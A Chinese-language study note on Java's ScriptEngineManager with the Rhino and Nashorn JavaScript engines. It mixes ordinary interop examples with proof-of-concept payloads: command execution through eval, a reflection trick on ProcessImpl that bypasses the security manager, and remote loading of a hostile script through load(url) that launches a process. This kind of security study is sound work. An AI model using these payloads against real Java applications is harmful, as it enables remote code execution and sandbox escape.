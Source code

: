 # ScriptEngineManager

这是java开放的一个面向脚本语言的接口。下面简单总结一下利用方式

Java 6/7采用的js解析引擎是Rhino

java8开始换成了Nashorn。

## Hello World

```java
public class Test {
    public static void main(String[] args) {
        ScriptEngineManager manager = new ScriptEngineManager();
        ScriptEngine engine = manager.getEngineByName("nashorn");//java8
        try {
            engine.eval("print('Hello,World')");
        } catch (ScriptException e) {
            e.printStackTrace();
        }

    }
}
```

在eval中直接执行js的代码就可以了。

## 使用java对象

![image-20220111113416922](https://img.dem0dem0.top/images/image-20220111113416922.png)

- 反射绕过sm

  ```java
  import javax.script.ScriptEngine;
  import javax.script.ScriptEngineManager;
  
  public class main {
      public static void main(String[] args) throws Exception {
          String poc1 = "var s = [3];\n" +
                  "s[0] = \"cmd\";\n" +
                  "s[1] = \"/c\";\n" +
                  "s[2] = \"whoami\";" +
                  "var p = java.lang.Runtime.getRuntime().exec(s);\n" +
                  "var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\n" +
                  "var result = sc.hasNext() ? sc.next() : \"\";\n" +
                  "print(result);sc.close();";
  
          String bypass_sm_exp = "var str = Java.type('java.lang.String[]').class;" +
                  "var map = Java.type('java.util.Map').class;" +
                  "var string = Java.type('java.lang.String').class;" +
                  "var Redirect = Java.type('java.lang.ProcessBuilder.Redirect[]').class;" +
                  "var boolean = Java.type('boolean').class;" +
                  "var c = java.lang.Class.forName('java.lang.ProcessImpl');" +
                  "var start = c.getDeclaredMethod('start',str,map,string,Redirect,boolean);" +
                  "start.setAccessible(true);" +
                  "var anArray = [\"cmd\", \"/c\", \"ipconfig\"];" +
                  "var cmd = Java.to(anArray, Java.type(\"java.lang.String[]\"));" +
                  "var input = start.invoke(null,cmd,null,null,null,false).getInputStream();" +
                  "var reader = new java.io.BufferedReader(new java.io.InputStreamReader(input));" +
                  "var stringBuilder = new java.lang.StringBuilder();" +
                  "var line = null;" +
                  "while((line = reader.readLine())!=null){" +
                  "stringBuilder.append(line);" +
                  "stringBuilder.append('\\r\\n');"+
                  "}" +
                  "stringBuilder.toString();" +
                  "print(stringBuilder)";
          ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");
          engine.eval(bypass_sm_exp);
      }
  }
  ```

  

- 方法的重载

  java中的方法会根据参数的不同而被重载。方法在js中被认为是类的一个属性，所以可以用.和[]调用

  ```
  var System = Java.type('java.lang.System');
  System.out['println'](3.14);          // 3.14
  System.out['println(double)'](3.14);  // 3.14
  System.out['println(int)'](3.14);     // 3
  ```

- 使用java的类型

  ```java
  var ArrayList = Java.type("java.util.ArrayList"); var a = new ArrayList(8);
  ```

  ```java
  //Nashorn
  var ArrayList = Java.type("java.util.ArrayList");
  var intType = Java.type("int");
  var StringArrayType = Java.type("java.lang.String[]");
  var int2DArrayType = Java.type("int[][]");
  var str = java.lang.String;
  //这种写法仅仅支持Nashorn，Rhino并不支持。jdk8+
  var str = Java.type("java.lang.String");//类型
  // Rhino
  var Array = java.lang.reflect.Array
  var intClass = java.lang.Integer.TYPE
  var array = Array.newInstance(intClass, 8)
  ```

  也可以通过这个方法来使用他们的静态方法

  ```java
  var File = Java.type("java.io.File");
  File.createTempFile("nashorn", ".tmp");
  //内部类
  var Float = Java.type("java.awt.geom.Arc2D$Float");
  huozhe
  var Arc2D = Java.type("java.awt.geom.Arc2D")
  var Float = Arc2D.Float
  ```

- 导包

  `nashorn:mozilla_compat.js`主要是靠这个

  ```java
  // Load compatibility script
  load("nashorn:mozilla_compat.js");
  // Import the java.awt package
  importPackage(java.awt);
  // Import the java.awt.Frame class
  importClass(java.awt.Frame);
  // Create a new Frame object
  var frame = new java.awt.Frame("hello");
  // Call the setVisible() method
  frame.setVisible(true);
  // Access a JavaBean property
  print(frame.title);
  ```

  有可能导致变量冲突，可以使用with来避免

  ```java
  / Create a JavaImporter object with specified packages and classes to import
  var Gui = new JavaImporter(java.awt, javax.swing);
  // Pass the JavaImporter object to the "with" statement and access the classes
  // from the imported packages by their simple names within the statement's body
  with (Gui) {
   var awtframe = new Frame("AWT Frame");
   var jframe = new JFrame("Swing JFrame");
  };
  ```

- 数组转换

  ```java
  // Convert the JavaScript array to a Java int[] array
  var javaIntArray = Java.to(anArray, "int[]");
  // Convert the JavaScript array to a Java String[] array
  var javaStringArray = Java.to(anArray, Java.type("java.lang.String[]"));
  // Convert the JavaScript array to a Java Object[] array
  var javaObjectArray = Java.to(anArray);
  ```

  `Java.from` 从java的列表转为js的

- 类的实现

  ```java
  var r = new java.lang.Runnable() {
   run: function() {
   print("running...\n");
   }
  };
  var th = new java.lang.Thread(r);
  th.start();
  th.join();
  ```

  但是在js里面可以直接给`Thread`转递方法

- 静态类

  ```java
  var task = new TimerTask {
   run: function() {
   print("Hello World!")
   }
  };
  ```

  ```java
  var Thread = Java.type("java.lang.Thread");
  var threadExtender = Java.extend(Thread);
  var t = new threadExtender() {
   run: function() { print("Thread running!") }};
  
  ```

- 方法

  使用父类的方

  ```java
   Java.super
  ```

## 远程加载

看了心心的yyds文章，既然`engine.eval`可以动态的执行js的代码，那么可不可以从远程来加载`js`呢？

`load("nashorn:mozilla_compat.js");`导包的时候，我们输入了一个url，我们测试如果把他改成url地址会怎么样呢?

![image-20220111152524500](https://img.dem0dem0.top/images/image-20220111152524500.png)

我们发现，他是去请求了。

最后的实现就是

```
String url = "http://127.0.0.1:8089/evil" ;
eval("load('"+url+"')");
```

evil

```java
var a=exp();function exp(){var x=new java.lang.ProcessBuilder; x.command("calc"); x.start();};
```

![image-20220111154456819](https://img.dem0dem0.top/images/image-20220111154456819.png)

![image-20220111155931737](https://img.dem0dem0.top/images/image-20220111155931737.png)

## 思考

在看心心的安全客时，我发现他对于知识的学习不是一味地照着别人的在做，是有自己思想的，我们不能成为一个单纯模仿别人的人，可以学习，但不可以**抄袭**